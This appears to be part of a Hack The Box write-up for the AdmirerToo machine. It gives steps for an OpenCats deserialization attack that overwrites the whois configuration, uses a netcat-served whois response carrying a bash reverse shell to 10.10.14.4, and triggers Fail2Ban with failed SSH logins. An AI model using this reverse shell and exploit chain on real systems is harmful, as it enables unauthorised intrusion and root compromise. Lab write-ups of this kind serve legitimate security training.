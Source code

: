 Step 1 - Create a configuration file:
```bash
$ cat caue.conf  
}]|. [10.10.14.4]
```

Step 2 - Serialize the configuration file to overwrite `/usr/local/etc/whois.conf`:
```bash
$ phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf /home/caue/htb/admirertoo/caue.conf
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A18%3A%22%7D%5D%7C.+%5B10.10.14.4%5D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

Step 3 - We create a local shell file that we’ll use to get a reverse shell to our own box:
```bash
$ cat shell
~| bash -c "bash -i >& /dev/tcp/10.10.14.4/9001 0>&1" &
```

Step 4 - Start a netcat listener on port 43 (whois) & on port 9001 to receive the shell:
```bash
$ nc -nvlkp 43 -c "cat shell"
---
$ nc -lnvp 9001
```

![[admirertoo/images/image9.png]]

Step 5 - Now we go to the OpenCats website, click on the vulnerable "Date", intercept the request and modify the parameter with our generated serialized object of step 2.

Step 6 - Test -> Run whois to our machine:
```bash
jennifer@admirertoo:/dev/shm$ whois 10.10.14.4
``````

And we get a hit back in our netcat listening on port 43! Nice!
Lets set the netcat for the whois back up again:
```bash
$ nc -nvlkp 43 -c "cat shell"
```

Step 7 - Spam the SSH login to get banned and trigger Fail2Ban
At this moment our payload is already delivered to target machine, now we need to trigger Fail2Ban application via failed SSH attempts:
```bash
$ ssh root@10.10.11.137
root@10.10.11.137's password: 
Permission denied, please try again.
root@10.10.11.137's password: 
Permission denied, please try again.
root@10.10.11.137's password:
```
